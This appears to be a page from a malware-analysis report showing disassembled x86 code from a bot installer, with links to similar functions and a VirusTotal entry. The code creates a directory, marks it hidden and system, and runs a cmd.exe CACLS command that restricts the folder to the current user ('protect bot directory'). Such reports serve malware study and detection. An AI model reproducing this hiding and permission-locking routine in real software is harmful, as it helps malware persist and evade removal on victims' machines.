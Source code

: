 cmp dword[ebp-0x11c],0x10
mov eax,dword[ebp-0x130]
jae 0x406dbc
lea eax,[ebp-0x130]
push ebx
push eax
call dword[sym.imp.KERNEL32.dll_CreateDirectoryA]
cmp dword[ebp-0x11c],0x10
mov eax,dword[ebp-0x130]
jae 0x406dd9
lea eax,[ebp-0x130]
push 6
push eax
call dword[sym.imp.KERNEL32.dll_SetFileAttributesA]
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x460],esp
push 0xf
pop esi
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.Install___Directory_created
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
lea eax,[ebp-0x168]
push str._c_echo_YCACLS__
push eax
lea edi,[ebp-0x130]
call fcn.00408c43
push str.___P___USERNAME_:R_
push eax
lea eax,[ebp-0x14c]
push eax
mov byte[ebp-4],0x19
call fcn.004029e3
add esp,0x14
cmp dword[eax+0x14],0x10
jb 0x406e3f
mov eax,dword[eax]
push ebx
push ebx
push eax
push str.cmd.exe
push ebx
push ebx
call dword[sym.imp.SHELL32.dll_ShellExecuteA]
push ebx
push 1
lea ecx,[ebp-0x14c]
call fcn.00401cd0
push ebx
push 1
lea ecx,[ebp-0x168]
mov byte[ebp-4],0x18
call fcn.00401cd0
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x460],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.Install___Successful_protect_bot_directory
mov byte[ecx],bl
call fcn.00401caf

[similar_1_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_2_ref]: /report/fcn.004172d1@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.0043883a@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_4_ref]: /report/fcn.0040495d@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_5_ref]: /report/fcn.00420823@b3771987fba16f4fba07d1109ec72c76
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6